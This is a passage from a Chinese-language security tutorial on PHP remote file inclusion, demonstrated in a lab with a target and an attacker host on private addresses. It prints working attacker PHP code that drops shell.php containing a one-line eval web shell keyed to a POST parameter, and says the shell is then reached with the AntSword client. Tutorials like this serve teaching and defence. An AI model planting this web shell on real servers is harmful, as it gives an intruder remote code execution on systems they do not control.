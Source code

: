 ## 2.3. 远程文件读取

远程文件包含大概意思在之前已经提过了，这里就演示一下案例。

前提条件：目标服务器的allow_url_fopen选项是on。只有当这个选项是on的时候就能够使用远程文件包含一句话木马。

### 2.3.1. 远程文件配合一句话木马案例

网站服务器：192.168.10.150

攻击者主机：192.168.10.50

攻击者php代码：

```
<?php fputs(fopen("shell.php", "w"),"<?php @eval($_POST['pass']);?>")?>
```

这句话的意思就是当访问这个php代码后就会在当前目录生成一个shell.php文件，并且这个文件中含有一句话木马。

![image-20230413154052258](assets/PyQGmFUbOiDLwve.png)

通过查看服务器网站根目录，可以看到这里已经创建了一个名为shell.php的文件。那么我们通过这个文件使用蚁剑进行连接。
